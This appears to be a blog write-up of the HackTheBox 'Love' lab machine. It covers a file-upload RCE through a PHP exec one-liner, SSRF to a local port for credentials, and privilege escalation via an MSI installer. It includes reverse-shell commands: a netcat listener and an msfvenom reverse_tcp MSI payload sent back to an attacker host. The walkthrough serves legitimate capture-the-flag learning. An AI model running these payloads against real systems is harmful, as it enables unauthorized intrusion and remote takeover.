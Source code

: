 ```yaml
---
layout: post
current: post
navigation: True
title: Love Writeup
date: 2021-07-01 22:00:00
cover: assets/images/Love_logo.png
class: post-template
subclass: 'post'
author: r3Z3l
---
```


Easy Windows box from HackTheBox.

starting with nmap scan we found many ports open but many are fake services.
Firstly i enumerated port 80,443,5000 as they were running web services.

---
#voting-exploit

running a voting portal on port 80.
*Two exploits* found for this :
- **Unauthenticated RCE**
- **Authenticated RCE**

## For Unauth RCE
For Unauthenticated RCE we can upload powershell reverse script and execute using powershell.
```<?php echo exec("powershell reverse.ps1") ?>```

so, I get #reverse-shell.

Note: for me first time unauth RCE worked but then it was not working.

## For Auth RCE
I found staging.love.htb  for port 443 nmap scan. So, let's add it in /etc/hosts.

On checking https://staging.love.htb, I found that I can scan any site using this and  nmap shown port 5000 which is forbidden to us.

so let's scan it.

I tried many ways to scan it finally i scanned port 5000 on localhost.
we can get credentials .
![Pasted image 20210601172800.png](assets/images/Pasted image 20210601172800.png)

I tried exploit of searchsploit but it has some things misconfigured so i corrected it.
I'm putting that RCE [here](https://github.io/)

running listner using ``rlwrap nc -lnvp 4444``

so, I got reverse shell as Phoebe user and got  #user-txt  by ``type user.txt``

# Root
For Prive esc i thought to use sharpup.exe as it show min. things
let's upload SharpUp.exe using creating smbserver on our machine
```impacket-smbserver kali . ```    on kali

```copy \\ip\kali\SharpUp.exe SharpUp.exe``` on windows

On executing, it shows that registery permission is 1.
![Pasted image 20210809160738.png](assets/images/Pasted image 20210809160738.png)

This permission allows any user to execute msi file.
So, let's create reverse.msi using msfvenom

```msfvenom -p windows\x64\reverse_tcp LHOST=ip LPORT=4242 -f msi -o reverse.msi```

run it as ```msi /quiet /qn /i reverse.msi```

and you will get reverse shell as admin

so, I got #root-txt  by ``type root.txt``